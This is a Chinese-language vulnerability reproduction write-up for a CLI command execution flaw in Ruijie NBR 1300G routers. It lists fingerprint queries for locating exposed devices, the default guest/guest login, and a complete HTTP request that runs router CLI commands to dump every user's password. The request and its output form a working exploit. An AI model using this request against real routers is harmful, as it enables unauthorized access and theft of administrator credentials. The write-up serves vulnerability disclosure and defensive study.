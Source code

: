 # 锐捷 NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

<a-checkbox checked>锐捷NBR路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="锐捷网络 --NBR路由器--登录界面"</a-checkbox></br>

<a-checkbox checked>app="Ruijie-NBR路由器"	</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-35.png)



查看流量发现 CLI命令流量



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-36.png)



请求包为



```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```



测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）



登录后发送请求包，执行CLI命令 `(show webmaster user)` 查看用户配置账号密码



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ruijie-37.png)



成功获取所有用户的账号密码



```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```



## 